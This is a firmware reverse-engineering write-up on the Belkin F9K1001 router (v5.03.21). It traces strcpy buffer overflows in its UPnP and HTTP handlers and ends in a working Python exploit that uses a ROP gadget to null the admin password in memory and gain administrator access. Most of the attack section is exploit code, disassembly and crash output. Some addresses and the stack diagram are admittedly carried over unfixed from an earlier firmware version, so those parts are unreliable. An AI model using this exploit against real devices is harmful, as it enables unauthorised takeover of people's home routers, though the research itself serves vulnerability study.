

# Reverse Engineering Belkin F9K1001 `v5.03.21` Firmware

[TOC]

<!-- ToC generated using https://imthenachoman.github.io/nGitHubTOC/ -->

## Static Analysis of the Firmware Image

Start with the official binary of the firmware:

- [Support Page]()
- MD5 sum: `853a872f50d7ad0a8ce041d864f192a1`
- [Firmware Image](http://cache-www.belkin.com/support/dl/F9K1001_WW_5.03.21.bin)
  - Local cached copy: https://github.com/a-rey/trunk/tree/master/reverse_engineering/F9K1001/bin/F9K1001_WW_5.03.21.bin

### What is the processor architecture?

Same as `v5.03.19` reversed here: https://github.com/a-rey/trunk/blob/master/reverse_engineering/F9K1001/F9K1001_v5_03_19.md#what-is-the-processor-architecture

### What RTOS is it running?

Same as `v5.03.19` reversed here: https://github.com/a-rey/trunk/blob/master/reverse_engineering/F9K1001/F9K1001_v5_03_19.md#what-rtos-is-it-running

### Where are `.text`,  `.data`, and `.bss` loaded?

- [Ghidra download](https://ghidra-sre.org/)
  - [Install guide](https://ghidra-sre.org/InstallationGuide.html)
- [Java 11 download](https://www.oracle.com/technetwork/java/javase/downloads/jdk11-downloads-5066655.html) (required by Ghidra)

Start a new non-shared project in Ghidra (`File > New Project`). Then load the image (file `4`) into Ghidra using a MIPS little endian language (`File > Import File` in the new project window and click the button to the right of the `Language` field and search for `MIPS` in the `Filter` field):


Then at `0x0` in the main listing panel where the raw data is, type `d` to disassemble the code there to get the following C disassembly in Ghidra in the disassembly panel:

```c
void UndefinedFunction_00000000(void)
{
  bool bVar1;
  undefined4 *puVar2;
  int iVar3;
  
  setCopReg(0,Status,Status & 0x400000,0);
  setCopReg(0,WatchLo,0,0);
  setCopReg(0,WatchHi,0,0);
  setCopReg(0,Status,Status & 0xfffffffe,0);
  setCopReg(0,Cause,0,0);
  setCopReg(0,Count,0,0);
  setCopReg(0,Compare,0,0);
  iVar3 = -0x80000000;
  do {
    cacheOp(1,iVar3);
    bVar1 = iVar3 != -0x7fff8020;
    iVar3 = iVar3 + 0x20;
  } while (bVar1);
  iVar3 = -0x80000000;
  do {
    cacheOp(0,iVar3);
    bVar1 = iVar3 != -0x7fff8020;
    iVar3 = iVar3 + 0x20;
  } while (bVar1);
  puVar2 = (undefined4 *)&DAT_802b1d10;
  iVar3 = 0x93b3fc;
  do {
    *puVar2 = 0;
    puVar2[1] = 0;
    iVar3 = iVar3 + -0x10;
    puVar2[2] = 0;
    puVar2[3] = 0;
    puVar2 = puVar2 + 4;
  } while (0 < iVar3);
  _DAT_802b1e38 = 0x80bf5110;
  FUN_000198a8();
  do {
                    /* WARNING: Do nothing block with infinite loop */
  } while( true );
}
```

Notice the last while loop. It loads an address `0x802b1d10` and loops through it `0x93b3f4` times setting every thing to zero. This is likely the `.bss` section and its size being initialized at run time. Also, if the `.bss` section starts at `0x802b1d10` then by subtracting the file size, the image base/`.text` entry point becomes clear. This is because most programs have a memory layout like the following after the bootloader:

```
+------------+ <- high memory address
|   .bss     |
+------------+
|   .data    |
+------------+
|   .text    |
+------------+ <- low memory address
```

With this, the image base is likely `0x80002000` since nice round numbers are more common:

```
$ ls -l
total 4848
-rw-rw-r--. 1 user user 2817292 Sep 19 21:59 4
-rw-rw-r--. 1 user user 1197063 Sep 19 21:59 4.7z
-rw-rw-r--. 1 user user  480256 Sep 19 21:59 B3800
-rw-rw-r--. 1 user user  461835 Sep 19 21:59 B3800.7z
[user@linux-re _0.deobfuscated.extracted]$ python -c "print(hex(0x802b1d10 - 2817292))"
0x80002004
```

Next, select `Search > For Strings ...` and filter the results by location to see a clear delineation between human readable strings and random data:


This indicates the `.data` section likely starts around `0x001E73e8`. Here is the final information:

- `.text` likely starts at `0x80002000`
- `.data` likely starts around `0x80002000` + `0x001E73e8` = `0x801e93e8`
- `.bss` likely starts at `0x802b1d10`

Now, select `Window > Memory Map` and click the home icon to rebase the image to `0x80002000`.


Then, to create the new section, click on the equal sign to split the current region to match the following:


Next select `Analysis > Auto Analyze`, and deselect the `Non-returning Functions Discovered` before running it:

### Identify any custom `strcpy()` leaf functions

Select `Window > Functions` and right click on the column in the pane that appears to select `Add/Remove Columns`. In the new window, select `Reference Count` and then sort on this new column:


These high referenced functions represent "utility" functions for the kernel and any references to an unbounded `strcpy()` with user input can lead to buffer overflows with insecure programming. Fortunately, many of these functions are at the same (or very close) address to the previously parsed firmware image `v5.03.19`. This analysis can be found here: https://github.com/a-rey/trunk/blob/master/reverse_engineering/F9K1001/F9K1001_v5_03_19.md#identify-any-custom-strcpy-leaf-functions

From this analysis, the following leaf functions can be derived for all functions with references greater than 100:

- `0x800182d8` is `strlen()`
- `0x800181f4` is `strcpy()`
- `0x80017c54` is `memset()`

- `0x80017dc4` is `atoi()`
- `0x80018500` is `strcmp()`
- `0x80017c94` is `strncmp()`
- `0x80018250` is `strncpy()`
- `0x800187d0` is another `strncmp()`
- `0x80018984` is `strcat()`

### Find vulnerable functions processing UPnP requests using `strcpy()`

Searching for strings with `upnp` (`Search > For Strings ...`):


The first 2 strings look like UPnP URLs, which are likely responsible for processing user input. These strings have the following function references:


`FUN_80176538` doesnt have any `strcpy()` calls using direct user input from the parameters of the function. However, `FUN_80178c18` and `FUN_80179144` do call `strcpy()` to local stack buffers direclty from parameters passed into the function. The next question to answer is if the parameters are unfiltered user input. However, both functions do not see to have any XREFs beyond the following:


 Both of these XREFs for each function lead to the following function table in memory:


Besides knowing the names of these functions, there isn't any further information since there are no other XREFs to this function table. However, this information is enough to Google from. Looking up `AddPortMapping UPnP` should eventually lead to the UPnP specification: http://upnp.org/specs/gw/UPnP-gw-WANIPConnection-v2-Service.pdf. This document lists the following for section 2.5.16 for `AddPortMapping()`: 

> This action creates a new port mapping or overwrites an existing mapping with the same internal client. If the ExternalPort and PortMappingProtocol pair is already mapped to another internal client, an error is returned.

It also goes on to state the following arguments for this function:


This matches the C decompilation of function `FUN_80178c18` in Ghidra very accurately (abridged to show pertinent information):

```c
// renamed from FUN_80178c18
undefined4 AddPortMapping(undefined4 uParm1,int iParm2,int iParm3)
{
  char local_250 [32];
  char local_230 [32];
  char local_210 [32];
  char local_1f0 [32];
  char local_1d0 [32];
  char local_1b0 [8];
  char local_1a8 [39];
  char local_a8 [24];
  undefined auStack144 [32];
  
  local_a8[0] = '\0';
  local_1a8[0] = '\0';
  local_1b0[0] = '\0';
  local_1d0[0] = '\0';
  local_1f0[0] = '\0';
  local_210[0] = '\0';
  local_230[0] = '\0';
  local_250[0] = '\0';
  iVar7 = 0;
  if (0 < iParm2) {
    iVar1 = 0;
    do {
      ppcVar5 = (char **)((iVar1 + iVar7) * 4 + iParm3);
      uVar2 = strcmp(ppcVar5[1],s_NewRemoteHost_80212770);
      if (uVar2 == 0) {
        strcpy(local_250,*ppcVar5);
      }
      else {
        ppcVar5 = (char **)(iVar7 * 0xc + iParm3);
        uVar2 = strcmp(ppcVar5[1],s_NewExternalPort_80212780);
        if (uVar2 == 0) {
          strcpy(local_230,*ppcVar5);
        }
        else {
          ppcVar5 = (char **)(iVar7 * 0xc + iParm3);
          uVar2 = strcmp(ppcVar5[1],s_NewProtocol_802126b0);
          if (uVar2 == 0) {
            strcpy(local_210,*ppcVar5);
          }
          else {
            ppcVar5 = (char **)(iVar7 * 0xc + iParm3);
            uVar2 = strcmp(ppcVar5[1],s_NewInternalPort_802126bc);
            if (uVar2 == 0) {
              strcpy(local_1f0,*ppcVar5);
            }
            else {
              ppcVar5 = (char **)(iVar7 * 0xc + iParm3);
              uVar2 = strcmp(ppcVar5[1],s_NewInternalClient_802126cc);
              if (uVar2 == 0) {
                strcpy(local_1d0,*ppcVar5);
              }
              else {
                ppcVar5 = (char **)(iVar7 * 0xc + iParm3);
                uVar2 = strcmp(ppcVar5[1],s_NewEnabled_802126e0);
                if (uVar2 == 0) {
                  strcpy(local_1b0,*ppcVar5);
                }
                else {
                  ppcVar5 = (char **)(iVar7 * 0xc + iParm3);
                  uVar2 = strcmp(ppcVar5[1],s_NewPortMappingDescription_802126ec);
                  if (uVar2 == 0) {
                    strcpy(local_1a8,*ppcVar5);
                  }
                  else {
                    ppcVar5 = (char **)(iVar7 * 0xc + iParm3);
                    uVar2 = strcmp(ppcVar5[1],s_NewLeaseDuration_80212708);
                    if (uVar2 != 0) {
                      return 0x192;
                    }
                    strcpy(local_a8,*ppcVar5);
                  }
                }
              }
            }
          }
        }
      }
      iVar7 = iVar7 + 1;
      iVar1 = iVar7 * 2;
    } while (iVar7 < iParm2);
  }
  // (...) abridged 
}
```

It seems like this function takes in some parameter `iParm3` and indexes into it (so it is likely a C structure) and then looks for each of the parameters for the `AddPortMapping()` UPnP specification with a `strcmp()`. Then it copies the parameters onto the stack. _If_ the user has control of the values placed in `iParm3`, then this function _can_ lead to a buffer overflow. 

## Exploit the buffer overflow

### Try to Crash the Kernel

Since there is no code path to trace if the user has control of `iParm3`, the following experiment is run to try and crash the kernel. First, a special request is crafted to trigger the overflow sent to our known URL of `/upnp/control?WANIPConnection`. Googling for the UPnP specification of `AddPortMapping()` gives the following example XML:

```xml
<?xml version="1.0"?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
    <s:Body>
        <u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
            <NewRemoteHost>192.168.1.1</NewRemoteHost>
            <NewExternalPort>9999</NewExternalPort>
            <NewProtocol>TCP</NewProtocol>
            <NewInternalPort>9999</NewInternalPort>
            <NewInternalClient>192.168.1.91</NewInternalClient>
            <NewEnabled>1</NewEnabled>
            <NewPortMappingDescription>description</NewPortMappingDescription>
            <NewLeaseDuration>0</NewLeaseDuration>
        </u:AddPortMapping>
    </s:Body>
</s:Envelope>
```

The request also needs the following HTML headers:

```
Content-Type: text/xml
SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping"
```

Also, it looks like this request is commonly send using a POST. With this information the following Python test script can be made:

```python
import requests

header = {
    "Content-Type": "text/xml",
    "SOAPAction": "urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping"
}

body = """<?xml version="1.0"?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body>
    <u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
      <NewRemoteHost>{0}</NewRemoteHost>
      <NewExternalPort>443</NewExternalPort>
      <NewProtocol>TCP</NewProtocol>
      <NewInternalPort>443</NewInternalPort>
      <NewInternalClient>10.0.0.6</NewInternalClient>
      <NewEnabled>1</NewEnabled>
      <NewPortMappingDescription>My awesome port map</NewPortMappingDescription>
      <NewLeaseDuration>10</NewLeaseDuration>
    </u:AddPortMapping>
  </s:Body>
</s:Envelope>
"""

# must send request to the URL we first found from strings: /upnp/control?WANIPConnection
resp = requests.post("http://192.168.2.1/upnp/control?WANIPConnection", 
                     headers=header, 
                     data=body.format('A'*608))
```

A buffer size of 608 is used to test the overflow because the prologue of `FUN_80178c18` sets up the stack frame with the following MIPs assembly:

```assembly
80178c18  a0 fd bd 27  addiu sp,sp,-0x260     # 0x260 is 609
80178c1c  54 02 bf af  sw    ra,local_c(sp)
80178c20  50 02 b4 af  sw    s4,local_10(sp)
80178c24  4c 02 b3 af  sw    s3,local_14(sp)
80178c28  48 02 b2 af  sw    s2,local_18(sp)
80178c2c  44 02 b1 af  sw    s1,local_1c(sp)
80178c30  40 02 b0 af  sw    s0,local_20(sp)
```

Running this script with the correct target IP of the router causes a reboot! This means we have a buffer overflow.

### NULL the admin password in memory

Now in order to make this overflow useful, the user needs to know who calls the exploitable function `FUN_80178c18`. Since there are no XREFs to the function table, dynamic analysis becomes useful here. Before diving into hardware reverse engineering, it is easier to check if this board has already been reversed for portability to OpenWRT. Some googling should lead to the board analysis found here: https://oldwiki.archive.openwrt.org/toh/belkin/f9k1110. This analysis says that the board has a UART with the following specifications: 

> **Serial:** yes, 4-pin header, (57600,8,N,1), 3.3V TTL, J12

Then indicates the following pinout diagram:

```
^ to RAM
o (GND)
o (RxD)
o (TxD)    --> 5 GHz ant (B)
o [3.3]    NC
J12
```

This header can be depicted on the board directly here with the red box:


Connecting to this header using a simple FTDI TTL-232R-3V3 USB cable requires the following pinout diagram for the cable:


And the following diagram for connectivity:

```
Board:         FTDI Cable:
o (GND)  -->   Black Wire
o (RxD)  -->   Orange Wire
o (TxD)  -->   Yellow Wire
o [3.3]        Not Connected!
```

After connecting this cable to the board and using the previous exploit, the following is displayed on a serial monitor (Use [Putty](https://www.putty.org/) for Windows or [pyserial's miniterm.py](https://github.com/pyserial/pyserial/blob/master/serial/tools/miniterm.py) for Linux. Also be sure to set the baud rate to 57600):

```
===== General exception ======
EPC   -> 0x 80172328
CO_SR -> 0x 10009803
Register Dump: Saved Area : Begin 0x 8050bc34 End 0x 8050bdcf
RES:0x 0000000a
 RA:0x 80171fc4
 AT:0x 00000000
 V0:0x 00000010
 V1:0x 10009803
 A0:0x 41414141
 A1:0x 00000002
 A2:0x 0000000a
 T0:0x 80659af8
 T1:0x 80b7c5b8
 T2:0x 802205b0
 T3:0x 80b7c0c6
 T4:0x 80000000
 T5:0x 00000001
 T6:0x 0202a8c0
 T7:0x 10009801
 T8:0x 00000001
 T9:0x 00000000
 S0:0x 41414141
 S1:0x 41414141
 S2:0x 41414141
 S3:0x 41414141
 S4:0x 41414141
 S5:0x 00000620
 S6:0x 00000063
 S7:0x 8068de54
 S8:0x 00000000
EPC:0x 80172328
 SR:0x 10009803
 CAUSE:0x 00000010
 SP (Save Point) :0x 8050bc34
==============================
Exception Stack Point = 0x 8050bef0

===================
Print call path
0x 00000000,Function=0x 80172284  PC=0x 80172328 
0x 00000001,Function=0x 80171f9c  PC=0x 80171fbc 
0x 00000002,Function=0x 8016f290  PC=0x 8016f40c 
0x 00000003,Function=0x 8015f6b8  PC=0x 8015f8ac 
0x 00000004,Function=0x 00000000  PC=0x 80004264 
===================
```

This is the exception handler for the kernel displaying information about the crash the exploit caused. The call path at the end explains a lot for identifying the calling parent of the exploitable function `FUN_80178c18`.

TODO: fix addresses in stack log for new firmware version


```
+---------------------+ <- sp + 0x54 (high memory)
|    caller's stack   |
+---------------------+ <- sp + 0x50
|        unused       |
+---------------------+ <- sp + 0x4C (first element on FUN_801609d4's stack)
|        unused       |
+---------------------+ <- sp + 0x48
|    return address   |
+---------------------+ <- sp + 0x44
|          s0         |
+---------------------+ <- sp + 0x40
|      buffer end     |
+---------------------+ <- sp + 0x3C
|        buffer       |
+---------------------+
        (...)
+---------------------+ <- sp + 0x04
|     buffer start    |
+---------------------+ <- sp
```

### Overwrite the admin password in memory

To take this exploit to the next level, the next attempt will overwrite the admin password in memory. Finding the runtime address of this password is possible by looking for password-like strings (`Search > For Strings ...`). Specifically, searching for `pswd` gives the following strings:



Following the reference at `0x801ee8ec` leads to the XREF for the following decompiled function in Ghidra (after some cleanup of variable names/types and some reversing of the immediate subroutines):

```c
void FUN_8006004c(char *struct)
{
  char *oldPassword;
  char *newPassword;
  char *conPassword;
  int strMatch;
  int strMatch2;
  int strLen;
  char *s;
  longlong lVar1;
  int currStruct;
  char *randomAddress;
  int idx;
  char stackBuf [91];

  randomAddress = (char *)0x802ae014;
  _memset(stackBuf,'\0',0x23);
  oldPassword = find_in_struct(struct,s_userOldPswd_801ee8ec);
  newPassword = find_in_struct(struct,s_userNewPswd_801ee8f8);
  conPassword = find_in_struct(struct,s_userConPswd_801ee904);
  if (oldPassword == (char *)0x0) {
    oldPassword = randomAddress;
  }
  if (newPassword == (char *)0x0) {
    newPassword = randomAddress;
  }
  if (conPassword != (char *)0x0) {
    randomAddress = conPassword;
  }
  strMatch = _strcmp(oldPassword,s_d41d8cd98f00b204e9800998ecf8427e_801ee910);
  if (((strMatch != 0) ||
       (newPassword != (char *)0x802ae014 || randomAddress != (char *)0x802ae014)) &&
       (strMatch2 = _strcmp(newPassword,randomAddress), strMatch2 == 0))
  {
    probably_crypto(newPassword);
    idx = 0;
    currStruct = 0;
    do {
      strLen = _strlen((char *)(currStruct + -0x7f4bcfe0));
      if ((strLen != 0) &&
          (lVar1 = FUN_8005f6dc(oldPassword,currStruct + -0x7f4bcfb8), lVar1 == 0))
      {
        _printf(s_system_Admin_Password_CGI:%d_[%s_801ee934,0xb0f,newPassword);
        _strcpy_wrapper(currStruct + -0x7f4bcfb8,newPassword);
        break;
      }
      idx = idx + 1;
      currStruct = idx * 0x74;
    } while (idx < 2);
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    // ~~~~ these 2 strcpy() calls are very interesting ~~~~
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    if ((idx < 2) && (_strcpy((char *)0x80b4ee34,newPassword), idx == 0)) {
      _strcpy((char *)0x80b42554,newPassword);
    }
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  }
  s = find_in_struct(struct,s_timeout_802ae08c);
  _DAT_80b4edec = _atoi(s);
  FUN_8015f01c(_DAT_80b4edec);
  return;
}
```

There are 2 addresses in the function that are interesting. Towards the bottom, there are 2 `_strcpy()` calls that copy the _"new password"_ to addresses in memory (`0x80b42554` and `0x80b4ee34`). Searching for the bytes `0x25` and `0x54` (for the address`0x80b42554` ) in the binary lead to the following instructions (`Search > Memory` and enter `25 54` before selecting `Search All`):


This reference at `0x8015f0ac` points to the following code (from the disassembly pane in Ghidra):

```assembly
15f0a4  b4 80 04 3c  lui a0,0x80b4
15f0a8  b6 60 00 0c  jal _strlen
15f0ac  54 25 84 24  addiu a0, a0, 0x2554
```

MIPs uses the `lui` and `addiu` instructions to create the value `0x80b42554` in the register `a0` as the argument for `_strlen()`. Interestingly, the function that calls this `strlen()` (called `FUN_8015f080`) does the following:

```c
len = _strlen((char *)0x80b42554);
if (len == 0) {
  return 1; // a return value greater than 0 is usually a success case
}
```

Following this call up the call chain leads to `FUN_8005d9c8` which has 2 XREFs. From here, the `FUN_8007f01c` XREF is really interesting (abridged decompilation from Ghidra):

```c
(...)
// this conditional is based on our call to FUN_8015f080() returning > 1
if (...) {
  uVar7 = _sprintf(pcParm1,s_var_PWS_key_=_"%c*******";_801f7444, pbVar2);
  (...)
}
else {
  uVar7 = _sprintf(pcParm1,s_var_PWS_key_=_"%s";_801f7460, pbVar2);
  (...)
}
(...)
```

These `sprintf()` strings look like the password field on the main page of the router (`dashboard.htm`). When this main page is "locked", the password field is displayed with the first character then `*******`. When this main page is "unlocked", the password field is displayed in plain text.


So by setting the admin password to NULL, `FUN_8015f080` will return 1 and _likely_ cause `FUN_8005d9c8` to display the admin password in plain text! To take advantage of this, the previous exploit code will be modified to include a [ROP Gadget](https://en.wikipedia.org/wiki/Return-oriented_programming) to clear this admin password. Since the exploit is string based, in order to NULL the admin password, a ROP gadet must be found that stores 0 to an address in a register under user control through the buffer overflow. Looking at the disassembly of the function epilogue of `FUN_801609d4` (which contains the buffer overflow) it is clear that the overflow gives the user control of register `s0`.

```assembly
80160a30  44 00 bf 8f  lw ra, 0x44(sp)
80160a34  40 00 b0 8f  lw s0, 0x40(sp)
80160a38  08 00 e0 03  jr ra
80160a3c  50 00 bd 27  addiu sp, sp, 0x50
```

So a ROP gadget is needed that stores 0 using an address in `s0` and the exploit buffer will ensure that the address of the admin password is "restored" into `s0` as `FUN_801609d4` returns and cleans up its stack. Finding this ROP gadget is easier using the following Ghidra plugin: [MIPS ROP Gadget](https://github.com/a-rey/ghidra_scripts/tree/master/MIPS_ROP_Gadgets). The installation guide is also posted on the Github page. Using this plugin and searching for `sw zero,0x0(s0)` gives the following results:

```
MIPS_ROP_Gadgets.py> Running...
Looking for "sw zero,0x0(s0)" within 10 instructions of the function epilogue
  Address of ROP   |     ROP Gadget       |       Stack Size       | Instruction Proximity
     800d2944      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     800e62c0      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           10
     800f6d44      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     801662f8      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     801684c4      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175ec4      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175f20      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175f84      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175fd8      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80176698      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80176988      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     801769ec      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176a54      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176abc      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176b24      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176b7c      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80178720      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178788      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178b70      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80178cac      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178d38      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178e20      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80178e98      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178f00      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178f5c      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178fcc      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     8017903c      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80179230      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80179288      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     801794ec      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     801a0aa0      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           9
     801b8d60      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     801b8dc8      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     801cb6a0      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           8
MIPS_ROP_Gadgets.py> Finished!
```

The parent who calls `FUN_801609d4` (the exploitable function) is `FUN_80163ac0` and has the following function epilogue:

```assembly
80163b60  04 00 bf 8f  lw      ra,0x4(sp) # ra will be address of the ROP gadget
80163b64  00 00 b0 8f  lw      s0,0x0(sp) # s0 is under user control
80163b68  08 00 e0 03  jr      ra
80163b6c  10 00 bd 27  _addiu  sp,sp,0x10 # this is the stack size of the parent
```

So a ROP gadget is needed with a stack size of `0x10` so that the exploit returns to the parent of `FUN_80163ac0` (which is `FUN_80160a4c`, the HTTP method dispatcher). The gadget chosen for this exploit is at `0x80175fd8` and has the following code:

```assembly
80175fd8  00 00 00 ae  sw      zero,0x0(s0) # the target ROP gadget
80175fdc  08 00 bf 8f  lw      ra,0x8(sp)   # where the "real" ra needs to be
80175fe0  04 00 b1 8f  lw      s1,0x4(sp)   # could be an issue but not used by parents :)
80175fe4  00 00 b0 8f  lw      s0,0x0(sp)   # could be an issue but not used by parents :)
80175fe8  08 00 e0 03  jr      ra
80175fec  10 00 bd 27  _addiu  sp,sp,0x10   # must match the stack size of the parent
```

With this gadget, the exploit needs to overflow beyond the original buffer in order to ensure the address of the admin password is restored into `s0` by this selected ROP gadget and then returns to `FUN_80160a4c` (the grandparent of `FUN_801609d4`). Here is the final exploit (the 8 `0xA`s are padding for the 2 function stacks that are not used by our ROP gadget):

```python
import requests

header  = 'application/x-httpd-cgi'
filler  = 'B' * (0x48 - len(header))
s0      = '\x80\xB4\x25\x54'[::-1]   # address of the admin password
rop_ra  = '\x80\x17\x5F\xD8'[::-1]   # sw $zero, 0($s0) | $sp += 0x10
real_ra = '\x80\x16\x0F\x2C'[::-1]   # return address to the grandparent of FUN_801609d4
BUF = '{0}{1}{2}{3}AAAAAAAA{4}'.format(header, filler, s0, rop_ra, real_ra)
resp = requests.post("http://192.168.2.1/home.htm", headers = {
    'Content-Type': BUF
})
```

**NOTE:** In the exploit, the addresses are reversed before being sent because the target architecture is little endian _but_ network byte order is big endian.

Notice that the `real_ra` in the exploit is the address of the instruction _after_ calling the parent of the exploitable function. This is where the ROP gadget needs to return to in order to maintain "normal" code execution. The relevant assembly is as follows:

```assembly
80160f24  b0 8e 05 0c  jal  post_request  # parent of the vulnerable function
80160f28  25 20 60 02  _or  a0,s3,zero
80160f2c  04 00 00 10  b    LAB_80160f40  # where the ROP gadget returns to
```

When running this exploit, not only does the kernel not crash, but the main page at `dashboard.htm` shows the admin password as expected and authenticates the user as the administrator!